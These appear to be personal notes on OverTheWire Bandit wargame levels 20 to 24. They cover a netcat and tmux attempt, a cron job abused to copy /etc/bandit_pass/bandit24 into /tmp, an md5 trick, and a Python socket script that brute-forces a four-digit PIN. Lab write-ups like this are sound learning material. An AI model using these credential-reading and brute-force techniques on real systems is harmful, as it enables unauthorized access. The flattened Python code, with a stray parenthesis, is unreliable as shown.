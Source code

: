
# 20
This challenge seems bugged due the weird previous password misspelling, tried:
tmux
ctrl+shift+n or whatever way to create new pane in tmux
upper pane: ./whatever_exe_name 30000
lower pane: nc localhost 30000
in nc send the password like in bandit14
exit till everything is closed (tmux + ssh)
+
https://krusve.com/posts/wargames-bandit2/

didn’t work so took 21's password from google


# 21
cd /etc/cron.d/
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
note - mistook file name for password by mistake



# 22
so doing same thing in 21 we read the script and understand the script does md5 hash on "echo I am user bandit23" and output it to the corresponding folder in /tmp
so I ran: echo I am user bandit23 | md5sum | cut -d ' ' -f 1 and got 8ca319486bfbbc3663ea0fbe81326349
ran /tmp/8ca319486bfbbc3663ea0fbe81326349


# 23
same^
you can put any script in /var/spool/foo and it will run, seemingly every 90s and it'll delete after

in foo: nano a.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/1.txt
(script works with https://www.shellcheck.net/)

save
wait (as long as you can cat the file it didn’t run)
cat /tmp/1.txt


# 24
nc localhost 30002 to see program behavior:
write https://realpython.com/python-sockets/#echo-client-and-server client that connects to 30002, for example the client should first receive data and only then send data, not vice versa like written in the guide. my Python code without \r\n because reasons:
import socketimport osimport jsonHOST = "127.0.0.1"  # The server's hostname or IP addressPORT = 30002  # The port used by the servertry:    os.mkdir('/tmp/1')except Exception as e:    pass #I  create the folder manually to run the .py file anywaywith socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:    s.connect((HOST, PORT))    data = ''    for i in range(10000):        padded = str(i).zfill(4)        response = f'{s.recv(1024)!r}' #have no idea what !r does        with open('/tmp/1/input_output.txt', 'a') as f:            f.write(json.dumps({'data': data, 'response': response}) + '\n')        data = f"XXX{padded}\n"        s.sendall(data.encode()))
